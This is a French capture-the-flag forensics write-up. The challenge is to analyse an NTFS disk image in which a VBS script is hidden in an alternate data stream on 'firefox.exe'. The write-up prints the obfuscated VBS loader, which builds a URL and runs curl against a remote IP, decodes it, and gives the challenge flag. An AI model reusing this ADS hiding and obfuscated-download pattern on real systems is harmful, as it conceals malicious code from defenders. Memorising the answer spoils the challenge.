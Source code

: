 Notre analyste SOC a enfin eu des congés payés et un bon weekend reposant, il a pu dormir. A l'aide de ses facultés cérébrales retrouvées, il a observé un log intéressant qui commence par :

```
wscript.exe E:\firefox.exe:security_?????.vbs
```

Il ne se rappelle pas que firefox puisse être installé dans ce répertoire et qu'il dispose d'un `security_???.vbs`. L'équipe client n'a pas effectué de tâche d'administration liée à firefox.

Que se passe t il ?

Nous avons récupéré le filesystem à l'aide de la commande suivante :

```
$ sudo dd if=/dev/sda3 of=./suspicious_ntfs_drive.img bs=1M
```

Le flag est au format suivant : nom du fichier vbs, IP contactée, port contacté: leHACK{security_restenomdefichier.vbs_IPcontactée_port}

## Solution

As always, we start with a `file`, as it takes some time to run i've aaaalready ran it :
```
$ file suspicious\_ntfs\_drive.img

suspicious\_ntfs\_drive.img: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 32, heads 64, hidden sectors 124928, dos < 4.0 BootSector (0x80), FAT (1Y bit by descriptor); NTFS, sectors/track 32, sectors 8191, $MFT start cluster 4, $MFTMirror start cluster 511, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 033ec3e594bc24608
```

C'est marqué que le type de système de fichier est NTFS. De plus, l'énoncé mentionne la ligne de commande invoquée : `wscript.exe E:\firefox.exe:security_?????.vbs` qui contient un `:` on pense donc à un **alternate data stream** (ou pas lol, mais maintenant on y pensera).

Monter le disque avec ntfs-3g et les options permettant de voir les attributs spécifiques aux streams.
```
$ mkdir mount_point

$ sudo mount -t ntfs-3g -o user\_xattr,streams\_interface=xattr,efs\_raw suspicious\_ntfs\_drive.img mount\_point
```
Regarder le contenu du disque :
![c9b0f9314eee850d02aca08f86bc80cc.png](../_resources/c9b0f9314eee850d02aca08f86bc80cc.png)

Consulter les attributs NTFS du fichier avec la commande getfattr :
```
getfattr -d -m ".*" mount_point/firefox.exe
```
![f3a3d70410e5938a5eef687d6b2fc324.png](../_resources/f3a3d70410e5938a5eef687d6b2fc324.png)

On voit du code VBS :
```
user.security_launch.vbs="Dim shl\015\012Set shl = CreateObject(\"Wscript.Shell\")\015\012Dim dest\015\012aaa = replace(\"hello\",\"h\",\"w\")\015\012bbb = StrReverse(\"86\")\015\012ccc = Right(\"90018000\",4)\015\012dest = \"http://\"+chr(49)+\"93.1\"+bbb+\".1.42:\"+ccc+\"/dothethingzuulee\"\015\012Call shl.Run(\"\"\"curl.exe\"\" \"+dest)\015\012Set shl = Nothing\015\012WScript.Quit\015\012'flaag=almostthere"
```

On copie colle et on réécrit proprement. ça donne ça :

```
Set shl = CreateObject("Wscript.Shell")  -> on crée un objet shell
aaa = replace("hello","h","w")     -> remplace h par w dans hello => wello
bbb = StrReverse("86")        -> met la chaine à l'envers => 68
ccc = Right("90018000",4)      -> prends les 4 char à droite => 8000

dest = "http://"+chr(49)    => http://1
+"93.1"                     => http://193.1
+bbb                   => http://193.168
+".1.42:"              => http://193.168.1.42:
+ccc                   => http://193.168.1.42:8000
+"/dothethingzuulee"   => http://193.168.1.42:8000/dothethingzuulee

Call shl.Run("""curl.exe"" "+dest)
Set shl = Nothing
WScript.Quit
flaag=almostthere
```

La comande lancée est `curl http://193.168.1.42:8000/dothethingzuulee` ça fait un `HTTP GET` de la ressource `dothethingzuulee` à l'IP `193.168.1.42` sur le port `8000`.
Pas très réaliste mais j'ai fait de mon mieux.

Donc le flag c'est : `security_launch.vbs_193.168.1.42_8000`

## Pour aller plus loin

Je n'ai aucune idée de comment utiliser le fichier `suspicious_ntfs_drive.img` sous windows.
Les commandes à utiliser sous windows sont  :
```
get-item -path .\firefox.exe -stream *
get-content -path .\firefox.exe -stream security_launch.vbs
```
